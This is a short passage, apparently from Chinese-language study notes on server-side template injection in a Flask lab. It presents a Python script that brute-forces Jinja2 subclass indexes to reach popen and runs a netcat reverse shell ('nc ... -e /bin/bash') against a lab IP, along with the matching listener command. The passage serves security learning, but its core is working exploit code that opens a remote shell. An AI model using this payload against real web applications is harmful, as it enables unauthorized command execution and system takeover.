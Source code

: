 ![image-20240407194505443](SSTI%E6%BC%8F%E6%B4%9E.assets/image-20240407194505443.png)

## 无回显SSTI

**SSTI盲注思路**

* 反弹shell

  通过rce反弹一个shell出来绕过无回显的页面

  ```py
  import requests
  url = 'http://172.31.130.66:8006/flasklab/level/3'
  for i in range(500):
      try:
          data = {"code": '{{"".__class__.__base__.__subclasses__()[' + str(i) + '].__init__.__globals__["popen"]("nc 172.31.130.66 7777 -e /bin/bash").read()}}'}
          r = requests.post(url,data=data)
      except:
          pass
  然后kali中监听7777端口，nc -lvp 7777
  
  for i in range循环执行
  当遇到包含popen的子类时，
  直接执行nc 172.31.130.66 7777 -e /bin/bash
  ```